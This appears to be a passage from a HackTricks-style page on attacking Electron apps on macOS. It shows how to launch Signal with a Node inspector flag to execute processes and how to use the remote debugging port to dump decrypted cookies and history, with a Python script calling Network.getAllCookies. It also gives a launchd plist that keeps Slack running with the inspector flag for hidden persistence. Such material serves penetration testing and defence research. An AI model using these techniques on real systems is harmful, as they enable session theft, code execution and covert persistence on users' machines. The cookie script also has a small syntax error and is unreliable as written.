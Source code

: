 {% code overflow="wrap" %}
```bash
/Applications/Signal.app/Contents/MacOS/Signal --inspect=9229
# Connect to it using chrome://inspect and execute a calculator with:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
{% endcode %}

{% hint style="danger" %}
If the fuse**`EnableNodeCliInspectArguments`** is disabled, the app will **ignore node parameters** (such as `--inspect`) when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.

However, you could still use the **electron param `--remote-debugging-port=9229`** but the previous payload won't work to execute other processes.
{% endhint %}

Using the param **`--remote-debugging-port=9222`** it's possible to steal some information from the Electron App like the **history** (with GET commands) or the **cookies** of the browser (as they are **decrypted** inside the browser and there is a **json endpoint** that will give them).

You can learn how to do that in [**here**](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e) and [**here**](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) and use the automatic tool [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) or a simple script like:

```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv()
```

In [**this blogpost**](https://hackerone.com/reports/1274695), this debugging is abused to make a headless chrome **download arbitrary files in arbitrary locations**.

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    <key>ProgramArguments</key>
    <array>
        <string>/Applications/Slack.app/Contents/MacOS/Slack</string>
        <string>--inspect</string>
    </array>
    <key>Label</key>
    <string>com.hacktricks.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```
